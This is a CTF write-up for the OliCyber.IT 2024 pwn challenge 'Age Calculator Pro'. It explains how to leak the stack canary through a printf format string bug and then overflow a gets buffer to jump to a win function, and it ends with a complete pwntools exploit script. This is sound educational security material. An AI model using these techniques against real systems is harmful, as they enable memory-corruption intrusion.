


# OliCyber.IT 2024 - Regional CTF

## [pwn] Age Calculator Pro (26 solves)

I no longer want to remember how old I am...

`nc agecalculatorpro.challs.external.open.ecsc2024.it 38103`

Author: Giulia Martino <@Giulia>

## Overview

The challenge consists in a very simple binary. It first calls an `init` function, used to set buffering and print a big banner. Then it asks the user to provide a name and prints it back asking the user for its birth year. It converts the birth year to an integer and finally, it prints the user's age. By looking around the binary (e.g. with Ghidra), it is possible to spot a `win` function which spawns a shell for us. The binary is not PIE but has canary enabled.

```console
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

The first thing to note about this challenge is the usage of the `gets` function to get inputs from the user. From `man gets`:

```text
DESCRIPTION
       Never use this function.
```

There's a reason why the Linux Manual is suggesting not to use `gets`: this function reads a string from standard input, but stops **only** when it finds a `\n` or `EOF`, no matter how big is the buffer it is reading into. There is no way to tell `gets` to stop after reading a fixed amount of characters; this can result in buffer overflows when the input to `gets` is a string bigger than the buffer used to store it.  

The function `gets` is used two times to read from `stdin` to a stack buffer. Given the buffer overflow, we can immediately think of overwriting the return address inside the stack with the address of the `win` function. Considering the binary is not PIE, we don't even need a leak, we can just hardcode the `win` address.  

There's an issue to address though: the binary has canary protection enabled. If we just overflow past the stack buffer with random bytes until we get to the return address, we will end up overwriting the canary as well and the program will terminate because of a `stack smashing detected`. We need some way to leak the canary so that we can overwrite it with its own value, tricking the stack smashing detection into thinking that we haven't written on it at all.  

Looking again at the binary, we can note the vulnerable usage of `printf`:

```c
printf(buffer);
```

Since `buffer` is a controlled array, we get a format string vulnerability. If we insert format specifiers inside our controlled buffer, `printf` will search its parameters inside the stack (even though it doesn't have any), giving us a way to leak stack blocks.  

The easiest approach is to just spam a lot of `%p` specifiers until we actually get a canary leak. The canary is composed by a 7-byte random sequence + a null byte, so it is easy to guess which of the leaks is actually a canary. But it is also possible to use the debugger to inspect the stack and correctly check the matching.



In the example above, the canary is the 17th leak: `0xf2e23800574f2c00`.  

Lastly, we need to know how far is the canary from the start of our input, so that we can align all the stack blocks correctly. A possible way consists in putting some recognizable string inside the input buffer (e.g. `AAAAAAAA`), then looking at the stack with a debugger and compute the canary offset. In the screenshot below, a breakpoint was set right after the second call to `gets` inside `main`; `gdb` + [`pwndbg`](https://github.com/pwndbg/pwndbg) combo is used.



The pink line indicates the start of the input buffer; the blue line indicates the canary; the green one indicates `main`'s return address. We can compute the distance between the start of our input and the canary by just subtracting their addresses:

```console
In [1]: hex(0x7fffffffdd88 - 0x7fffffffdd40)
Out[1]: '0x48'
```

We should also note that there's a stack block in between the canary and the return address. Now we can just build our payload by chaining `0x48` padding bytes + leaked canary + `0x8` padding bytes + `win` address.

## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

HOST = os.environ.get("HOST", "agecalculatorpro.challs.external.open.ecsc2024.it")
PORT = int(os.environ.get("PORT", 38103))

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
exe = context.binary = ELF(os.path.join(os.path.dirname(__file__), 'build/age_calculator_pro'))

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(HOST, PORT)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

'''.format(**locals())

io = start()

format_string = b"%p." * 20
io.sendlineafter(b"What's your name?\n", format_string)
res = io.recvuntil(b"what's your birth year?", drop=True)
canary = int(res.split(b'.')[16], 16)
print(f"[+] canary: {hex(canary)}")

payload = b"A" * 0x48
payload += p64(canary)
payload += p64(0x0)
payload += p64(exe.sym.win)
res = io.sendline(payload)
io.recvuntil(B"years old!\n")
time.sleep(0.5)
io.sendline(b"cat flag")
res = io.clean(0.5)
io.close()
print(res.decode())

```
